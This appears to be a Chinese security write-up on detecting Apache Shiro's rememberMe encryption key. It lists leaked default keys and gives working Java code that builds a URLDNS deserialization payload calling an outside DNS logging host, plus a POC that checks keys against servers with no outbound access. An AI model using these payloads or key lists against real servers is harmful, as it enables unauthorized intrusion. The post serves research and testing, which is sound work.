








# Shiro之key的检测

## 前言

在说 key 的检测之前，先聊聊现在工具普遍用到的 key 吧。相信在了解 shiro 之前，大家都曾用过网上公开的 shiro 利用工具，其中对于 key 的检测，普遍采用的字典的形式进行爆破，这里列举几个在字典中存在的 key：
```
kPH+bIxk5D2deZiIxcaaaA==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
4AvVhmFLUs0KTA3Kprsdag==
5aaC5qKm5oqA5pyvAAAAAA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
......
```

第一个大家应该都眼熟了，是 1.2.4 版本的默认 CipherKey，那其他 CipherKey 是哪里来的呢？网上有几种观点：

- 一个框架配置了某一个 Shiro CipherKey，大家写的项目都用到了该框架；
- 大家的项目互相抄来抄去，对于 CipherKey 并未修改；
- 见到其他项目使用该 CipherKey，也沿袭着使用了；
- ......

我们尝试在 github 上搜索其中一个 CipherKey 试试


发现大部分项目都是使用了同一个 CipherKey，缘，妙不可言~

言归正传，说回 Key 的检测，第一想法都是用 URLDNS 这条链子来进行检测。但实战环境中，很多时候遇上的主机都是不出网，这种情况如何解决呢？

L1NK3R 师傅提出的只依赖于 Shiro 本身，在 Key 检测正确时返回 deleteMe，错误情况时返回 deleteMe 的方法，解决了上述不出网的情况。下面就逐个进行学习一下。

## 基于URLDNS的检测方法

通过前面的学习，听到该方法名字应该都已经懂如何构造了，先通过学习的 URLDNS 链生成文件
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://851bdcd2.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

}
```

再通过 Shiro 的`AesCipherService()`方法对前面生成的文件进行 AES 加密得到 payload
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```

添加到 rememberMe 字段发送 payload


最后执行反序列化流程，执行 URLDNS 链，发起 DNS 请求，打开平台看到已经收到了请求数据。


## 基于Shiro本身的检测方法

经过测试我们可以看到，在登录后携带正常的 rememberMe 发送请求并不会在返回包中存在`rememberMe=deleteMe`，但使用正确或者错误的 CipherKey 加密构造的 rememberMe 在发送请求后，都会在返回包中看到`rememberMe=deleteMe`的响应头。

那么如果我们能够使正确的 CipherKey 加密的 payload 执行后不回显`deleteMe`，错误的 CipherKey 加密的则回显`deleteMe`，那就能达到检测 CipherKey 是否正确的目的。

接下来的任务就是看看 CipherKey 正确和错误的情况下，流程是怎么走的，进行对比和分析。

### 密钥错误

我们把断点打在最后的`AbstractRememberMeManager#deserialize()`方法处，然后用一个错误的 CipherKey 加密 URLDNS 的链子，发送请求


接在跟进`decrypt()`方法直到`crypt()`方法


在这里开始因为 CipherKey 错误抛出异常，在`getRememberedPrincipals()`方法中被捕获异常


这里调用到了`onRememberedPrincipalFailure()`方法，跟进该方法


接着调用了`forgetIdentity()`方法


继续跟进`forgetIdentity(request, response)`方法


调用到了`removeFrom()`方法，继续跟进`removeFrom()`方法


可以看到，在该方法中定义了`deleteMe`字段并添加到响应头中

### 密钥正确

因为 CipherKey 正确，所以这里进入了`doFinal()`方法，不会抛出异常


然后一层层返回，最后到了 `return this.deserialize()`方法


跟进`deserialize()`方法


这里可以看到最后套了一层`(PrincipalCollection)`将返回的类转换成`PrincipalCollection`类，但转换失败，被`getRememberedPrincipals()`捕获了异常


接下来就是跟前面一样进入到了`removeFrom()`方法


至此，弄懂了 CipherKey 无论正确与否，进行加密的链子都会返回`deleteMe`的原因。

### 编写POC

既然在 CipherKey 正确情况下，是因为类型强转导致的进入`removeFrom()`方法，那么我们只要将序列化的对象继承于`PrincipalCollection`类即可，那就找一下`PrincipalCollection`类的实现类

这里选择`SimplePrincipalCollection`类或者`SimplePrincipalMap`类都可以

```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.subject.SimplePrincipalCollection;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(simplePrincipalCollection), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(Object obj) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.flush();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}
```

密钥✅的情况：


密钥❎的情况：

